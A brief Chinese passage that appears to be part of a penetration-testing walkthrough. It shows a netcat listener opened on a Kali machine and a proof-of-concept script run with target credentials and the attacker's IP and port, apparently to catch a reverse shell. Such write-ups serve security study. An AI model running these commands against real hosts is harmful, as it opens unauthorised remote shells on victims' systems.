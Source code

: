 **开启kali监听9999端口**

```
nc -lvp 9999
```

<img src="2024-02-13/image-20230215153502868.png" alt="image-20230215153502868" style="zoom:67%;" />

**使用poc**

```
python3 /path/poc.py -t http://目标 -c 用户名:密码 -LS KALIIP:9090 -L KALIIP -P 监听端口
```

<img src="2024-02-13/image-20230215154034603.png" alt="image-20230215154034603" style="zoom:80%;" />
